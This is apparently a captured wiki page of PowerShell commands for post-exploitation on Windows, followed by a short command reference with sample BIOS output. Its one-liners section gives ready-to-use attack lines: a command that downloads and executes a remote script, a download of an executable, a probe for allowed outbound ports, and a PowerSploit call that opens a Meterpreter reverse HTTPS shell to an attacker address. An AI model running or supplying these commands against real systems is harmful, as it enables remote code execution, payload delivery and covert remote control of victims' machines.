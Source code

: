
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows Powershell Commands and Scripts for Post Exploitation

# One liners

**Download and Execute Remote Powershell Script**

```
iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")
```

**Download and Save File**

```
(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')
```

**Enumerate Allowed Outbound Ports 1-1024 via [securitypadawan.blogspot.com](http://securitypadawan.blogspot.com/2013/04/quickly-determine-allowed-outbound-ports.html)**

```
$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}
```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force
```

----

# Commands with Sample Output
## Hardware
### Get BIOS Information
 * **Command with arguments**: `gwmi win32_bios`
 * **Description**: Retrieves BIOS information including system serial number.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32_bios<br>SMBIOSBIOSVersion : 6.00<br>Manufacturer      : Phoenix Technologies LTD<br>Name              : PhoenixBIOS 4.0 Release 6.0<br>SerialNumber      : VMware-56 4d 9b 0f 26 ba 8c f9-6e 7a 1e 33 5d 3c f0 dc<br>Version           : INTEL  - 6040000</code></div> 
   